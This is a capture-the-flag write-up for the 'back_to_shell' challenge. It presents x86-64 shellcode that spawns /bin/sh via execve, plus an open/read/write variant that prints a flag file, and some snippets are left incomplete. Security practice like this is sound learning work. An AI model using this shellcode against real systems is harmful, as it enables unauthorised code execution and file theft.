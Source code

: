 # back_to_shell
The goal is to "pop a shell with all the registers at zero" in order to read the flag.

## Context
- The shellcode is read from `stdin` and placed into the `rax` register for execution.
- The binary zeroes out all registers (as observed in GDB).

## Approach
A simple shellcode is needed to invoke a shell using the execve("/bin/sh", NULL, NULL):
```{asm}
mov rdi, rax     ; move the content of rax (shellcode address) into rdi
add rdi, 19      ; adjust the pointer by 19 to point to the string "/bin/sh"
xor rax, rax     ; clear rax
mov rax, 0x3b    ; 0x3b is the syscall number for execve in Linux x86_64
syscall          ; execute the syscall
```

- We add 19 to `rdi` to adjust the pointer, which has been moved by the shellcode itself. 19 is the offset between the start of the shellcode and the string "/bin/sh".
- We trigger a system call using the syscall number in `rax` and the arguments in the appropriate registers. Since the registers are initially zeroed by the binary, both `rsi` and `rdx` (second and third arguments of execve) are already NULL.

## Alternative solution
Another approach is to push the string /bin/sh directly onto the stack, like this:
```{asm}
xor rax, rax                     
mov rax, 0x3b                    
mov rdi, 0x0068732f6e69622f    ; move "reversed" /bin/sh into rdi  
push rdi                       ; pushes /bin/sh onto the stack.
mov rdi, rsp                   ; points rdi to the location of /bin/sh on the stack.
```
- To push it correctly onto the stack, the bytes of "/bin/sh" must be reversed since the system uses little-endian byte ordering.

## Another alterantive solution
Another approach is to makes use of three system calls: open(), read(), and write().
```{asm}
mov rdx, 0x0067616c66      ; reverse the string "flag" and move it into rdx
mov rax, 2                 ; syscall number for open() (2)
push rdx                   ; push "flag" onto the stack
mov rdi, rsp               ; move the pointer to "flag" (on the stack) into rdi
xor rdx, rdx               ; set rdx to 0 (O_RDONLY flag for open)
syscall                    ; call open("flag", O_RDONLY)

mov rdi, rax               ; move the file descriptor returned by open into rdi
xor eax, eax               ; set eax to 0 (syscall number for read)
mov rdx, 70                ; set rdx to 70 (the number of bytes to read)
mov rsi, rsp               ; move the stack pointer to rsi (buffer to store the read data)
syscall                    ; call read(file descriptor, buffer, 70)

mov rax, 1                 ; syscall number for write() (1)
mov rdi, 1                 ; file descriptor 1 (stdout)
syscall                    ; call write(stdout, buffer, 70)
```
For a more detailed explanation refer to the challenge [open_read_write](../open_read_write/)
